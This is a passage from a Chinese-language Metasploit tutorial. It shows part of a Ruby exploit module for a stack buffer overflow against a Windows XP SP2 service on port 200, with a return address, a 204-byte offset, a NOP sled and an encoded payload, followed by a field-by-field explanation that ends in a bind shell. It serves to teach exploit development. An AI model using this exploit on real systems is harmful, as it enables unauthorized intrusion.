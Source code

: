 ```
                                        'EXITFUNC' => 'process',
                                },
                        'Payload'        =>
                                {
                                        'Space'    => 1500,
                                        'BadChars' => "\x00\xff",
                                },
                        'Platform'       => 'win',

                        'Targets'        =>
                                [
                                        ['Windows XP SP2 En',
                                          { 'Ret' => 0x77D8AF0A, 'Offset' => 204 } ],
                                ],
                        'DefaultTarget' => 0,
                        ))

                        register_options(
                        [
                                Opt::RPORT(200)
                        ], self.class)
       end

       def exploit
          connect
          buffstuff = make_nops(target['Offset'])
          overflowquery = buffstuff + [target.ret].pack('V') + make_nops(50) + payload.encoded
          sock.put(overflowquery)
          handler
          disconnect
       end
end
```

让我们看看我们是如何构建这个漏洞的。在上一章中，我们广泛地介绍了图书馆部分，因此我们将不再讨论图书馆。

我们将默认选项中的`EXITFUNC`选项设置为`process`，因为如果主进程退出，它应该自动重新启动。`Payload`选项包含坏字符和空格变量。然而，我们在*确定不良字符*和*确定空间限制*部分讨论了这两个问题。接下来，我们将`Platform`设置为`win`，表示目标操作系统是基于 Windows 的操作系统。我们在`Targets`部分有两个有趣的字段。第一个是`Return Address`，这是我们在**免疫调试器**中使用**可执行模块**找到的同一个地址，它将帮助我们跳转到 ESP。然后，我们有`Offset`这是缓冲区大小，或者我们可以说填充缓冲区的确切字节数。这与我们使用`pattern_offset.rb`找到的值相同。接下来，我们将`DefaultTarget`设置为`0`，表示 Windows XP 框。接下来，我们默认将`RPORT`设置为`200`。

现在让我们关注一下`exploit`部分，因为我们现在已经熟悉了`connect`函数，因为在上一章中，我们已经在很多辅助模块中使用了它。我们进一步讨论下一个生成 204 个 NOP 的语句。我们可以直接使用一个名为`make_nops()`的内置 Metasploit 方法来生成任意数量的 nop。在这里，我们从包含 204 的`Targets`部分提供了`Offset`的值，这是完全填充缓冲区的字节数。我们将这些 NOP 存储在名为`buffstuff`的变量中。这与我们在 Perl 脚本中遵循的过程完全相同。唯一的区别是，我们不发送 204 次`A`字符，而是发送 204 个 NOP。

接下来，我们创建一个名为`overflowquery`的变量，并将 NOP 后跟跳转地址存储到 ESP，我们已将其保存在`targets`部分的变量`Ret`中，如前所述，以反向格式打包，记得吗？按相反顺序一次两个字节。是 啊然后，我们再次提供 50 个 NOP 以消除 EIP 和 ESP 之间空间中的任何不规则，最后，我们以编码格式发送有效负载的外壳代码。我们将`overflowquery`变量发送到目标，并可能将绑定 shell 发送到系统上，如以下屏幕截图所示：

![Fabricating under Metasploit](img/2223OS_03_35.jpg)
